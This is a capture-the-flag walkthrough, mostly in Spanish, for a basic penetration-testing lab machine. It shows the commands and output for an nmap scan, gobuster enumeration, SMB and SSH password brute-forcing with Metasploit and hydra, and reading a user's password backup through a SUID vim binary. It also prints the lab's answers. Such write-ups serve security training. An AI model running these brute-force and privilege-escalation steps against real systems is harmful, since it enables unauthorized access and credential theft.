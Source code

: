 # Web App Testing and Privilege Escalation

## Find the services exposed by the machine
```
nmap -sS 10.10.153.21
```

```
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

## What is the name of the hidden directory on the web server(enter name without /)?

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt dir -u 10.10.153.21
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.153.21
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/08/02 04:35:24 Starting gobuster
===============================================================
/development (Status: 301)
Progress: 21973 / 141709 (15.51%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2023/08/02 04:35:27 Finished
===============================================================
```

**R: development**

## User brute-forcing to find the username & password

Explotar listado samba
en metasploit

```
msfconsole
```
```
use auxiliary/scanner/smb/smb_login
set rhost 10.10.153.21
set user_file /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
set user_as_pass true
run
```
```
[*] 10.10.153.21:445      - 10.10.153.21:445 - Starting SMB login bruteforce
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\root:root'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\admin:admin'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\test:test'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\guest:guest'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\info:info'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\adm:adm'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\mysql:mysql'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\user:user'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\administrator:administrator'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\oracle:oracle'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\ftp:ftp'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\pi:pi'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\puppet:puppet'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\ansible:ansible'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\ec2-user:ec2-user'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\vagrant:vagrant'
[+] 10.10.153.21:445      - 10.10.153.21:445 - Success: '.\azureuser:azureuser'
[*] 10.10.153.21:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

teniendo un listado basico de user:pass samba obtenemos lo que sea que tengan



```
smbget smb://root:root@10.10.153.21/ -R
cat Anonymous/staff.txt
```
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
Teniendo 2 usuarios, jan y kay aplicamos hydra para obtener una clave

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.153.21 ssh -t 4
```

**R: armando**

## What service do you use to access the server(answer in abbreviation in all caps)?

**R: ssh**

## Enumerate the machine to find any vectors for privilege escalation

dentro de lo primero que pruebo es si hay vulnerabilidades suid

```
ssh -l jan 10.10.153.21
find / -perm -04000 -ls 2> /dev/null
```

```
jan@basic2:~$ find / -perm -04000 -ls 2> /dev/null
   536510     40 -rwsr-xr-x   1 root     root        38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   668960     16 -rwsr-xr-x   1 root     root        14864 Jan 17  2016 /usr/lib/policykit-1/polkit-agent-helper-1
   524733     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   678565     84 -rwsr-sr-x   1 root     root        85832 Nov 30  2017 /usr/lib/snapd/snap-confine
   525587    420 -rwsr-xr-x   1 root     root       428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
   667081     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   537537   2384 -rwsr-xr-x   1 root     root        2437320 Nov 24  2016 /usr/bin/vim.basic
   537430     24 -rwsr-xr-x   1 root     root          23376 Jan 17  2016 /usr/bin/pkexec
   524537     40 -rwsr-xr-x   1 root     root          39904 May 16  2017 /usr/bin/newgrp
   524410     52 -rwsr-xr-x   1 root     root          49584 May 16  2017 /usr/bin/chfn
   524632    136 -rwsr-xr-x   1 root     root         136808 Jul  4  2017 /usr/bin/sudo
   524412     40 -rwsr-xr-x   1 root     root          40432 May 16  2017 /usr/bin/chsh
   536526     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newgidmap
   537204     52 -rwsr-sr-x   1 daemon   daemon        51464 Jan 14  2016 /usr/bin/at
   524473     76 -rwsr-xr-x   1 root     root          75304 May 16  2017 /usr/bin/gpasswd
   536525     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newuidmap
   524548     56 -rwsr-xr-x   1 root     root          54256 May 16  2017 /usr/bin/passwd
   262236     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
   263821    140 -rwsr-xr-x   1 root     root         142032 Jan 28  2017 /bin/ntfs-3g
   262220     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
   262199     28 -rwsr-xr-x   1 root     root          27608 Nov 30  2017 /bin/umount
   263818     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   262169     40 -rwsr-xr-x   1 root     root          40152 Nov 30  2017 /bin/mount
   262219     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping

```
Interesantemente vim.basic tiene seteado el bit, por lo que podemos leer lo que queramos.

## What is the name of the other user you found(all lower case)?

**R: kay**

## If you have found another user, what can you do with this information?

Veamos que tiene kay

```
ls /home/kay
```

```
jan@basic2:~$ ls /home/kay
pass.bak
```
Tiene un archivo de clave

## What is the final password you obtain?

Leamoslo con vim.basic

```
vim.basic /home/kay/pass.bak
```

**R: heresareallystrongpasswordthatfollowsthepasswordpolicy$$**